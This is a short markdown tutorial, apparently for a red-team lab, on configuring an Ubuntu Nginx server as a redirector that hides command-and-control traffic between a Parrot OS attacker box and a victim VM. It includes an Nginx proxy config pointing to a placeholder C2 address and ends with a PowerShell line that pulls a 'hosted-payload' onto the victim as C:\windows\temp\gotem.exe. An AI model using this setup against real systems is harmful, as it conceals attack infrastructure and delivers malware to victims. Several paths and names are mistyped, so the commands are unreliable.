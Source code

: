 # Setting up proxy using Ubunut and Nginx

When running actions as an actor you always want to avoid giving away where you are coming from or your source ip. Typically this is done with a proxy also sometimes known as a LP (listening post), in this case it will be an ubuntu server running Nginx. Your current setup is as follows: 

	parrot-OS <> Victim VM
  
What we will be doing with the Ubuntu server is routing our C2 traffic through it so it appears it as though it is coming from the Ubuntu server and the the Parrot vm.

	Parrot <> Ubuntu <> Victim VM 


Lets install any Ubuntu server ISO from the interwebs [here](https://ubuntu.com/download/server).

# Install Nginx

1. First on your new ubntu box lets run an update 
	```
	sudo apt update
	```
2. Now lets install nginx
	```
	sudo apt install nginx
	```
3. Check the status of our new service 
	```
	sudo systemctl status nginx.service
	```
4. Note the following as important file location for Ngnix 
	## Important Nginx File Locations 
	- `/var/www/html` – Website content as seen by visitors.
	- `/etc/nginx` – Location of the main Nginx application files.
	- `/etc/nginx/nginx.conf` – The main Nginx configuration file.
	- `/etc/nginx/sites-available` – List of all websites configured through Nginx.
	- `/etc/nginx/sites-enabled` – List of websites actively being served by Nginx.
	- `/var/log/nginx/access.log` – Access logs tracking every request to your server.
	- `/var/log/ngins/error.log` – A log of any errors generated in Nginx.


# Nginx Reverse Proxy Config 

1. If your Nginx service isnt already running, run the following command
	```
	sudo systemctl start nginx.service
	```
2. lets edit our default config file `/etc/nginx/sites-enabled/default`
	```
	sudo vim /etc/nginx/site-enabled/default
	```
3. Add the following changes
	```nginx
	server {
			listen 80 default_server;
			listen [::]:80 default_server;

			root /var/www/html;

			index index.html;

			server_name *.example.org;

			location / {
					try_files $uri $uri/ @c2;
			}

			location @c2 {
					proxy_pass http://c2-ip-address;
					proxy_redirect off;
					proxy_set_header Host $host;
					proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
			}
	}
	```
> **NOTE:** Set your listening ports for Nginx server and your C2 ip to redirect to.

4. test your config 
    ```bash
    sudo nginx -t
    ```
5. If no error, restart you Nginx server
    ```bs
    sudo systemctl restart nginx.service
    ```
6. Now you can return to your Victim Machine and run a download using powershell through your proxy 
	```powershell 
	iwr -uri http://<ubuntu-nginx-ip>/hosted-payload -outfile C:\windows\temp\gotem.exe
	```
